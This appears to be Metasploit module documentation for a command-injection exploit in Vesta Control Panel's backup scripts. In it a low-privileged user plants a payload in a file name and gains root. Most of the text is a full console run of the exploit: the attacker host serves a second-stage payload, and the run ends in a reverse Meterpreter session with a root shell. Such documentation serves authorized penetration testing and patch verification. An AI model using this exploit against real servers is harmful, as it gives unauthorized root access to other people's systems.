 ## Vulnerable Application
This module exploits command injection vulnerability in v-list-user-backups bash script file. Low privileged authenticated users can execute arbitrary commands under the context of the root user.

An authenticated attacker with a low privileges can inject a payload in the file name starts with dot. During the user backup process, this file name will be evaluated by the v-backup-user bash scripts. As result of that backup process, when an attacker try to list existing backups injected payload will be executed.
        
## Installing the Vulnerable Application on Ubuntu 18.03 LTS

You can install Vesta Control Panel on Ubuntu 18.04 LTS server with following commands.

```
ssh root@your.server
curl -O http://vestacp.com/pub/vst-install.sh
bash vst-install.sh
```

Once you have finished the installation, go to https://IP_ADDR:8083/add/user/ and add new unprivileged user with default package.


## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use exploit/linux/http/vestacp_exec `
3. Set `RHOST`
4. Set `LHOST`
4. Set `USERNAME`
4. Set `PASSWORD`
4. Set `SRVHOST`
4. Set `SRVPORT`
7. Run `exploit`
8. **Verify** that you are seeing `Successfully authenticated to the FTP service` in console.
9. **Verify** that you are seeing `Successfully uploaded the payload as a file name` in console.
9. **Verify** that you are seeing `Successfully authenticated to the HTTP Service` in console.
9. **Verify** that you are seeing `Scheduled backup has ben started. Exploitation may take up to 5 minutes.` in console.
9. **Verify** that you are seeing `It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...` in console.
9. **Verify** that you are seeing `First stage is executed ! Sending 2nd stage of the payload` in console.
15. **Verify** that you are getting meterpreter session.

## Ubuntu 18.04 LTS with VestaCP 0.9.26

```
msf5 > use exploit/linux/http/vestacp_exec 
msf5 exploit(linux/http/vestacp_exec) > set RHOSTS 192.168.74.218
RHOSTS => 192.168.74.218
msf5 exploit(linux/http/vestacp_exec) > set USERNAME user11
USERNAME => user11
msf5 exploit(linux/http/vestacp_exec) > set PASSWORD qwe123
PASSWORD => qwe123
msf5 exploit(linux/http/vestacp_exec) > set LHOST 192.168.74.1 
LHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVHOST 192.168.74.1 
SRVHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVPORT 8081
SRVPORT => 8081
msf5 exploit(linux/http/vestacp_exec) > run
[*] Exploit running as background job 32.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.74.1:4444 
[*] 192.168.74.218:8083 - Using URL: http://192.168.74.1:8081/poSeL7s
msf5 exploit(linux/http/vestacp_exec) > [*] 192.168.74.218:8083 - Second payload download URI is http://192.168.74.1:8081/poSeL7s
[+] 192.168.74.218:21 - Successfully authenticated to the FTP service
[+] 192.168.74.218:21 - The file with the payload in the file name has been successfully uploaded.
[*] 192.168.74.218:8083 - Retrieving cookie and csrf token values
[+] 192.168.74.218:8083 - Cookie and CSRF token values successfully retrieved
[*] 192.168.74.218:8083 - Authenticating to HTTP Service with given credentials
[+] 192.168.74.218:8083 - Successfully authenticated to the HTTP Service
[*] 192.168.74.218:8083 - Starting scheduled backup. Exploitation may take up to 5 minutes.
[+] 192.168.74.218:8083 - Scheduled backup has been started ! 
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[+] 192.168.74.218:8083 - First stage is executed ! Sending 2nd stage of the payload
[*] Sending stage (53755 bytes) to 192.168.74.218
[*] Meterpreter session 8 opened (192.168.74.1:4444 -> 192.168.74.218:58790) at 2020-04-11 14:35:23 +0300

msf5 exploit(linux/http/vestacp_exec) > sessions -i 8 
[*] Starting interaction with 8...

meterpreter > shell
Process 42978 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
meterpreter > shell
[+] 192.168.74.218:8083 - It seems scheduled backup is done ..! Triggering the payload <3

# 
```